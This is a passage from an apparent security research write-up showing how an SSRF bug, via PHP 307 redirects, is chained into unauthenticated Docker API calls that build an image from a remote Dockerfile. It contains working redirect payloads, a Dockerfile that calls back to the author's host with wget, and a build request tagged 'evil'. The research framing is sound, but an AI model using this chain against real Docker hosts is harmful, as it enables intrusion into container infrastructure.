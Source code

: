 We can use this feature to get POST requests.

Simply modify the previous index.php:

```
<?php
header('Location: https://192.168.1.142:4444/attack?arbitrary=params', false, 307);
```

Trying an SSRF attack, I received the expected request:

[![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/565c0dff-2e74-4ea0-995a-38881ae7207d.7dbb1fcf3d08.png)](https://www.leavesongs.com/media/attachment/2021/01/30/565c0dff-2e74-4ea0-995a-38881ae7207d.png)

Bingo, gets an SSRF with a POST request, although there is no Body.

Going back to the Docker API, I found that I still cannot use the run and exec APIs because both APIs need to transmit JSON format parameters in the requested Body, and our SSRF here cannot control the Body.

Continuing to flip through the Docker documentation, I found another API, [Build an image](https://docs.docker.com/engine/api/v1.41/#operation/ImageBuild):

[![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/81f686d6-4580-428a-bb4c-d2dc4f2b23d8.5026e621dd2a.png)](https://www.leavesongs.com/media/attachment/2021/01/30/81f686d6-4580-428a-bb4c-d2dc4f2b23d8.png)

Most of the parameters of this API are transmitted through Query Parameters, which we can control. 

> A Git repository URI or HTTP/HTTPS context URI. If the URI points to a single text file, the file’s contents are placed into a file called `Dockerfile` and the image is built from that file. If the URI points to a tarball, the file is downloaded by the daemon and the contents therein used as the context for the build. If the URI points to a tarball and the `dockerfile` parameter is also specified, there must be a file with the corresponding path inside the tarball.

This parameter can be passed into a Git address or an HTTP URL, and the content is a Dockerfile, a Git project containing a Dockerfile or a compressed package.

That is, the Docker API supports building images by specifying remote URLs without requiring me to write a Dockerfile locally.

So, I tried writing a Dockerfile like this to see if I can build this image, and if so, then my port 4444 should receive a request from wget:

```
FROM alpine:3.13
RUN wget -T4 https://192.168.1.142:4444/docker/build
```

Then modify the previous index.php and point to port 2375 of the Docker cluster:

```
<?php
header('Location: https://192.168.227.131:2375/build?remote=https://192.168.1.142:4443/Dockerfile&nocache=true&t=evil:1', false, 307);
```

I carried out an SSRF attack, waited for a while, and I received the request:
